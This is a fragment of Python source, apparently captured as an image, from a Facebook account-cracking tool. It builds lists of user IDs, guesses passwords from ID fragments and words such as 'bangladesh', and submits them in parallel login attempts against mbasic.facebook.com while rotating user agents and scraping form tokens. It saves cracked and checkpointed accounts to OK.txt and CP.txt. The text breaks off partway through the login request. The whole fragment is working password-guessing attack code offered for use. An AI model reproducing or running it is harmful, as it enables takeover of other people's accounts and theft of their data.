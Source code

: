         os.system('clear')

        print(logo1)

        tl = str(len(user))

        print('[+] Total ids: '+tl)

        print("[+] Your Code: "+code)

        print('[+] Process has been started')

        print('[+] Use flight mode for speed up')

        print('==================================================')

        for love in user:

            uid = code+name+cod+love

            pwx = [code+name+cod+love,cod+love,name+love,code+name+cod,'bangladesh','Bangladesh']

            yaari.submit(mumit2,uid,pwx,tl)

    print('==================================================')

    print(' [+] Crack process has been completed')

    print(' [+] OK Ids saved in INNOCENT/OK.txt')

    print(' [+] CP Ids saved in INNOCENT/CP.txt')

    print('==================================================')

def mumit2(uid,pwx,tl):

    global loop

    global cps

    global oks

    global proxy

    try:

        for ps in pwx:

            pro = random.choice(ugen)

            session = requests.Session()

            sys.stdout.write('\r\033[1;92m[INNOCENT]--[%s/%s]--[OK-%s]~[CP-%s] \r'%(loop,tl,len(oks),len(cps))),

            sys.stdout.flush()

            free_fb = session.get('https://mbasic.facebook.com').text

            log_data = {

                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),

            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
